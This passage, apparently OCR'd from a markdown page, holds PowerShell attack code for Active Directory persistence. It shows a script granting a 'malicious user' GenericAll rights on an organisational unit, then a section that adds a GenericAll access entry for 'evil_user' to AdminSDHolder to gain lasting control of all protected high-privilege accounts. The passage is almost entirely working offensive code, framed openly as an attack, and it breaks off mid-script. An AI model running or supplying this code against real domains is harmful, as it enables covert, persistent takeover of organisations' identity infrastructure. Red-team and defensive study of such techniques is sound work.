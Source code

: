 ```powershell
if($currentPermissions) {
    Write-Host "User already has permissions on $targetOU" -ForegroundColor Yellow
    $currentPermissions | Format-Table IdentityReference, ActiveDirectoryRights, AceType
} else {
    Write-Host "Granting malicious user control over $targetOU" -ForegroundColor Green
    
    # Step 3: Grant GenericAll permissions via SD modification
    $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
        $maliciousSID,
        "GenericAll",
        "Allow",
        "All",
        "None"
    )
    
    $acl = Get-Acl -Path "AD:$targetOU"
    $acl.AddAccessRule($ace)
    Set-Acl -Path "AD:$targetOU" -AclObject $acl
    
    Write-Host "Successfully granted GenericAll permissions on $targetOU" -ForegroundColor Green
}
```

#### **3. SD Persistence via AdminSDHolder Modification**
```powershell
# Objective: Modify AdminSDHolder to affect all protected objects
# Impact: Persistent access to all high-privilege accounts and groups

Write-Host "=== SD PERSISTENCE VIA ADMINSDHOLDER MODIFICATION ===" -ForegroundColor Red

# Step 1: Verify access to AdminSDHolder
$adminSDHolder = "CN=AdminSDHolder,CN=System,DC=corp,DC=local"
$adminSDHolderACLs = Get-DomainObjectAcl -Identity $adminSDHolder -ResolveGUIDs
$currentUser = $env:USERNAME

$hasWriteAccess = $adminSDHolderACLs | Where-Object {
    $_.IdentityReference -like "*\$currentUser" -and
    ($_.ActiveDirectoryRights -like "*WriteDACL*" -or $_.ActiveDirectoryRights -like "*GenericAll*")
}

if($hasWriteAccess) {
    Write-Host "User has write access to AdminSDHolder - proceeding with SD persistence" -ForegroundColor Green
    
    # Step 2: Add malicious ACE to AdminSDHolder
    $maliciousUser = "evil_user"
    $maliciousSID = (Get-DomainUser -Identity $maliciousUser).objectsid
    
    $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
        $maliciousSID,
        "GenericAll",
        "Allow",
        "All",
        "None"
    )
    
    # Step 3: Apply to AdminSDHolder
    $acl = Get-Acl -Path "AD:$adminSDHolder"
    $acl.AddAccessRule($ace)
    Set-Acl -Path "AD:$adminSDHolder" -AclObject $acl
    
    Write-Host "Successfully modified AdminSDHolder for SD persistence" -ForegroundColor Green
```